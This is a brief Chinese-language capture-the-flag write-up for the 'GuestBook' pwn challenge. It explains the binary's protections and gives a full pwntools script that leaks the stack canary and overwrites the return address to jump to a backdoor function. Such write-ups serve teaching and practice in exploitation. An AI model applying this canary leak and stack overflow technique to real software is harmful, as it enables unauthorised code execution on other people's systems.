# GuestBook

## 文件分析

下载`GuestBook`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

name上就是canary，首先填满name使得canary值泄露；  
还要注意输入时使用的是scanf，虽然可以栈溢出，但是遇到空字符会截断
需要多次溢出，实现跳转到`magic`后门函数

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 27847)

# payload 1, leak canary
sh.sendline(b'0'*23 + b'.')

sh.recvuntil(b'.\n') # skip
canary = u64(b'\0' + sh.recvuntil(b'!')[:7])
magicAddr = 0x4012c3

# payload 2, scanf 3 times to return to magic
sh.sendline(b'3')
sh.sendline(b'0'*0xa8 + p64(magicAddr)) # call magic, keep rsp balance
sh.sendline(b'0'*0x79 + p64(canary)[1:]) # fill canary except for the first 0x00
sh.sendline(b'0'*0x58) # fill canary 1st byte with 0x00

sh.interactive()
```

Done.
